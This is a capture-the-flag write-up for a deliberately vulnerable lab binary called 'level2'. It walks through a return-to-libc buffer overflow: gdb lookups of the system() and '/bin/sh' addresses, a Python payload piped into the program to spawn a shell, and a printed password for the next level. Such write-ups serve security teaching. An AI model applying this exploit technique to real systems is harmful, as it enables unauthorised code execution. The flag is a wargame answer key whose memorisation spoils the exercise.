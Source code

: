 # level2

## disassemble

```shell
objdump -dC -M intel level2
```

## ret to libc

`system("/bin/sh")` : ret                 + system + "...." + "/bin/sh"

                      "0x804854f"         + ...

                      "\x4f\x85\x04\x08"  + ...

```shell
gdb level2
(gdb) break main
(gdb) run
(gdb) print system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
```

`system("/bin/sh")` : ret                 + system              + "...." + "/bin/sh"
                      "0x804854f"         + "0xb7e6b060"        + "...." + ...
                      "\x4f\x85\x04\x08"  + "\x60\xb0\xe6\xb7"  + "...." + ...

```shell
(gdb) info proc map
process 3420
Mapped address spaces:
        Start Addr  End Addr    Size      Offset  objfile
        0xb7e2c000  0xb7fcf000  0x1a3000  0x0     /lib/i386-linux-gnu/libc-2.15.so

find 0xb7e2c000, 0xb7fcf000, "/bin/sh"
  0xb7f8cc58
  1 pattern found.
```

`system("/bin/sh")` :   ret                 + system              + "...." + "/bin/sh"
                        "0x804854f"         + "0xb7e6b060"        + "...." + "0xb7f8cc58"
                        "\x4f\x85\x04\x08"  + "\x60\xb0\xe6\xb7"  + "...." + "\x58\xcc\xf8\xb7"


## exploit

```shell
python2.7 -c 'print("X"*80 + "\x4f\x85\x04\x08"  + "\x60\xb0\xe6\xb7"  + "...." + "\x58\xcc\xf8\xb7")' > /tmp/exploit.txt
cat /tmp/exploit.txt /dev/stdin | ./level2
```

## flag

```shell
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
exit
```
